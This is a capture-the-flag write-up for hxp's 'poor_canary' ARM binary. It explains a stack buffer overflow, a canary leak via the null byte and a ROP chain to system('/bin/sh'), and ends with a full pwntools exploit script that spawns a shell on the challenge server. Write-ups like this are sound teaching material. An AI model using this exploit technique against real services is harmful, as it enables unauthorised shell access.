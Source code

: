# poor_canary

poor_canary is a statically linked ARM binary which echoes input.

```
root@DESKTOP-HUPC6JQ:/mnt/c/Users/Benni/hxpctf/poor_canary# file canary
canary: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=3599326b9bf146191588a1e13fb3db905951de07, not stripped
```

The original source code was provided as well, so we can see that (and why) the binary contains `system`:
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int main()
{
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    char buf[40];
    puts("Welcome to hxp's Echo Service!");
    while (1)
    {
        printf("> ");
        ssize_t len = read(0, buf, 0x60);
        if (len <= 0) return 0;
        if (buf[len - 1] == '\n') buf[--len] = 0;
        if (len == 0) return 0;
        puts(buf);
    }
}
const void* foo = system;
```

The binary is not position independent:
```
root@DESKTOP-HUPC6JQ:/mnt/c/Users/Benni/hxpctf/poor_canary# checksec canary
[*] '/mnt/c/Users/Benni/hxpctf/poor_canary/canary'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```

so IDA can tell us the virtual address where `system` is (0x00016D90).

The buffer `buf` on the stack is 40 bytes long, but `read` will read 0x60 (96) bytes - a classical overflow where we can override the return address. A quick debugging session enlightens us that the return address is 12 bytes behind the canary.

Since the stack is protected by a canary, we have to leak it first. Since canaries always begin with a `00`, we have to send 41 characters to retrieve the canary:
```python
io.send("A"*41)
resp = io.recvline()
canary = '\x00' + resp[43:-1]
```

In order to execute `system("/bin/sh"), we need that string somewhere:
```
root@DESKTOP-HUPC6JQ:/mnt/c/Users/Benni/hxpctf/poor_canary# ropper -f canary --string "/bin/sh"


Strings
=======

Address     Value
-------     -----
0x00071eb0  /bin/sh
```

So far so good, now we have to move the address into r0 (first argument is in r0):
```
root@DESKTOP-HUPC6JQ:/mnt/c/Users/Benni/hxpctf/poor_canary# ropper -f canary --nocolor | fgrep ": pop {r0"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x0005ab20: pop {r0, r1, r2, r3, ip, lr}; ldr r1, [r0, #4]; bx r1;
0x0005a120: pop {r0, r1, r2, r3, r4, lr}; bx ip;
0x0005ab04: pop {r0, r1, r3, ip, lr}; pop {r2}; ldr r1, [r0, #4]; bx r1;
0x00026b7c: pop {r0, r4, pc};
```

`pop {r0, r4, pc}` looks good: it pops into r0 **and** pc, so it does everything we need! We just have to
- write 40 bytes of garbage
- write the canary
- write 12 bytes of garbage
- write the address of our pop gadget (0x00026b7c)
- write the address of "/bin/sh" (0x00071eb0) (which will be popped into r0)
- write 4 bytes of garbage (which will be popped into r4)
- write the address of system (which will be popped into pc)
and the pc will point to `system`, r0 will point to `/bin/sh`, and thus we will have a shell!

```python
io.send("A"*40 + canary + "A"*12 + "\x7c\x6b\x02\x00" + "\xb0\x1e\x07\x00" + "A"*4 + "\x90\x6D\x01\x00")
```





Our full exploit script:
```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 116.203.30.62 --port 18113 ./canary
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./canary')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '116.203.30.62'
port = int(args.PORT or 18113)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
break *0x{exe.symbols.main:x}
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     arm-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x10000)

io = start()
io.recvline()

# read canary
io.send("A"*41)
resp = io.recvline()
canary = '\x00' + resp[43:-1]

# GOGOGO
io.send("A"*40 + canary + "A"*12 + "\x7c\x6b\x02\x00" + "\xb0\x1e\x07\x00" + "A"*4 + "\x90\x6D\x01\x00")
io.interactive()
```
